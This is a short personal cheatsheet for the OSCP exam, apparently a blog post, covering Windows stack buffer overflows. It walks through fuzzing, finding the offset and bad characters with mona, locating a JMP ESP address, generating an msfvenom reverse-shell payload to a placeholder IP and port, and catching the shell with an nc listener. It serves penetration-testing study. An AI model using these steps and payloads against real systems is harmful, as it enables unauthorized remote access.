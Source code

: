 ```yaml
---
layout: post
title: Buffer Overflow personnal cheatsheet
tags: [OSCP, Buffer Overflow, cheatsheet]
description: "Buffer Overflow personnal cheatsheet"

---
```


### Check for windows protections :

- C:\Users\thiba\Desktop\build\Release\winchecksec.exe PATH.exe

# Buffer Overflow "Normal" :

### Mona Configuration :

- mona config -set workingfolder c:\mona\%p

### Fuzzing :

- fuzzer.py / fuzzer2.py -> until app crash
- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l SIZE -> SIZE higher than crash offset

### Crash Replication & Controlling EIP :

- modify payload variable by pattern (exploit.py) 
- !mona findmsp -distance SIZE -> SIZE same as pattern
- EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)
- modify retn variable by "BBBB", remove payload
- Re-run exploit.py -> EIP should be "BBBB"

### Finding Bad Characters :

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns
- "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point :

- !mona jmp -r esp -cpb "BAD_CHARS" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards

### Generate Payload :

- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable

### Prepend NOPs :

- padding = "\x90" * 16

### Start nc listerner :

- nc -lvp 1234

